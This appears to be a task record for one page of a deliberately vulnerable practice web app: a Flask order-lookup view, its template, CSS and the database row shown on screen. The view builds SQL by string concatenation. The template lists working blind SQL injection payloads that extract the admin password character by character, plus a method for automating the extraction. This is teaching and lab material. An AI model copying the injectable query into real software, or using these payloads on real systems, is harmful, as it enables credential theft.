
Page /check-order?id=1 on the committed database.
### tables this page shows
CREATE TABLE orders (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    user_id INTEGER,
    product_id INTEGER,
    quantity INTEGER,
    total_price REAL,
    status TEXT DEFAULT 'pending',
    order_date TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
    FOREIGN KEY (user_id) REFERENCES users(id),
    FOREIGN KEY (product_id) REFERENCES products(id)
);

### app.py (the view)
@app.route('/check-order')
def check_order():
    order_id = request.args.get('id', '')
    db = get_db()
    result = None
    executed_query = None
    error = None
    query = "SELECT * FROM orders WHERE id = " + order_id
    executed_query = query
    try:
        result = db.execute(query).fetchone()
    except sqlite3.Error as e:
        error = str(e)
    return render_template('check_order.html',
                         result=result,
                         order_id=order_id,
                         executed_query=executed_query,
                         error=error)

### app.py (called while the page is built)
def get_db():
    if 'db' not in g:
        g.db = sqlite3.connect(DATABASE)
        g.db.row_factory = sqlite3.Row
    return g.db

### templates/check_order.html (shortened to what this page needs)
{% extends "base.html" %}
{% block content %}
<div class="card">
    <div class="card-header">
        <span class="card-title">📦 Order Lookup</span>
        <span class="badge badge-danger">Vulnerable: Boolean-Based Blind SQLi</span>
    </div>
    <p style="color: var(--text-muted); font-size: 14px; margin-bottom: 20px;">
        This endpoint is vulnerable to <strong>Boolean-Based Blind SQL Injection</strong>.
        The page content changes based on whether the query returns results (True) or not (False).
    </p>
    <form method="GET" action="{{ url_for('check_order') }}">
        <div style="display: flex; gap: 12px;">
            <input type="text" name="id" value="{{ order_id }}" placeholder="Order ID..." style="flex: 1;">
            <button type="submit" class="btn btn-primary">Check</button>
        </div>
    </form>
    {% if executed_query %}
    <div class="query-box">
        <span class="label">Executed SQL Query</span>
        <code>{{ executed_query }}</code>
    </div>
    {% endif %}
    {% if result %}
        <div class="alert alert-success">
            <strong>✅ Order Found!</strong>
            Order #{{ result.id }} — Product ID: {{ result.product_id }}, Qty: {{ result.quantity }},
            Total: ${{ result.total_price }}, Status: {{ result.status }}
        </div>
    {% elif order_id and not error %}
        <div class="alert alert-danger">
            <strong>❌ Order Not Found</strong> — No order matches the provided criteria.
        </div>
    {% endif %}
</div>
<div class="card">
    <div class="card-header">
        <span class="card-title">💉 Boolean-Based Blind SQLi Payloads</span>
        <span class="badge badge-warning">Click to copy</span>
    </div>
    <div class="payload">
        <div class="payload-label">Check if admin password starts with 'a' (True = order found, False = not found)</div>
        1 AND (SELECT CASE WHEN (substr((SELECT password FROM users WHERE username='admin'),1,1)='a') THEN 1 ELSE 1/0 END)=1
    </div>
    <div class="payload">
        <div class="payload-label">Check password length > 5</div>
        1 AND (SELECT length(password) FROM users WHERE username='admin') > 5
    </div>
    <div class="payload">
        <div class="payload-label">Check if user 'alice' exists</div>
        1 AND (SELECT CASE WHEN (SELECT count(*) FROM users WHERE username='alice') > 0 THEN 1 ELSE 1/0 END)=1
    </div>
    <div class="payload">
        <div class="payload-label">Check if any admin users exist</div>
        1 AND (SELECT CASE WHEN (SELECT count(*) FROM users WHERE role='admin') > 0 THEN 1 ELSE 1/0 END)=1
    </div>
</div>
<div class="card" style="border-color: var(--info);">
    <div class="card-header">
        <span class="card-title" style="color: var(--info);">🔬 Testing Methodology</span>
    </div>
    <ol style="padding-left: 20px; color: var(--text-muted); font-size: 13px; line-height: 1.8;">
        <li>Start with a valid order ID (1-15) to establish baseline True response</li>
        <li>Modify the ID with AND conditions to ask True/False questions</li>
        <li>If query returns order → condition is True; if empty → False (or error)</li>
        <li>Use <code>substr()</code> and <code>length()</code> to extract data character by character</li>
        <li>Automate with a script (see /docs for Python example)</li>
    </ol>
</div>
{% endblock %}

### templates/base.html (style rules this page uses)
:root { --bg: #0d1117; --bg-secondary: #161b22; --border: #30363d; --text: #c9d1d9; --text-muted: #8b949e; --accent: #58a6ff; --accent-hover: #79b8ff; --danger: #f85149; --warning: #f0883e; --success: #3fb950; --info: #58a6ff; }
* { margin: 0; padding: 0; box-sizing: border-box; }
body { font-family: 'Segoe UI', system-ui, -apple-system, sans-serif; background: var(--bg); color: var(--text); line-height: 1.6; min-height: 100vh; }
.card { background: var(--bg-secondary); border: 1px solid var(--border); border-radius: 12px; padding: 24px; margin-bottom: 20px; }
.card-header { display: flex; align-items: center; justify-content: space-between; margin-bottom: 16px; }
.card-title { font-size: 18px; font-weight: 600; color: var(--text); }
.badge { display: inline-flex; align-items: center; padding: 4px 10px; border-radius: 20px; font-size: 11px; font-weight: 600; text-transform: uppercase; letter-spacing: 0.5px; }
.badge-danger { background: rgba(248, 81, 73, 0.15); color: var(--danger); border: 1px solid rgba(248, 81, 73, 0.3); }
.badge-warning { background: rgba(240, 136, 62, 0.15); color: var(--warning); border: 1px solid rgba(240, 136, 62, 0.3); }
input[type="text"], input[type="password"], input[type="email"], textarea { width: 100%; padding: 10px 14px; background: var(--bg); border: 1px solid var(--border); border-radius: 8px; color: var(--text); font-size: 14px; }
.btn { display: inline-flex; align-items: center; justify-content: center; gap: 8px; padding: 10px 20px; border: none; border-radius: 8px; font-size: 14px; font-weight: 600; cursor: pointer; transition: all 0.2s; text-decoration: none; }
.btn-primary { background: var(--accent); color: white; }
.query-box { background: #0d1117; border: 1px solid var(--border); border-radius: 8px; padding: 16px; margin: 16px 0; font-family: 'Consolas', 'Monaco', monospace; font-size: 13px; overflow-x: auto; }
.query-box .label { color: var(--text-muted); font-size: 11px; text-transform: uppercase; letter-spacing: 1px; margin-bottom: 8px; display: block; }
.query-box code { color: #a5d6ff; }
.alert { padding: 12px 16px; border-radius: 8px; margin-bottom: 16px; font-size: 14px; }
.alert-success { background: rgba(63, 185, 80, 0.1); border: 1px solid rgba(63, 185, 80, 0.3); color: var(--success); }
.payload { background: #1a1f2e; border-left: 3px solid var(--warning); padding: 12px 16px; margin: 8px 0; border-radius: 0 8px 8px 0; font-family: 'Consolas', 'Monaco', monospace; font-size: 12px; color: #e6edf3; cursor: pointer; transition: background 0.2s; }
.payload-label { font-size: 11px; color: var(--warning); margin-bottom: 4px; font-weight: 600; }
code { font-family: 'Consolas', 'Monaco', 'Courier New', monospace; color: #a5d6ff; }

### rows in the picture
orders: id "1", product_id "1", quantity "1", total_price "1299.99", status "completed"

### other values in the picture
{{ executed_query }} "SELECT * FROM orders WHERE id = 1"
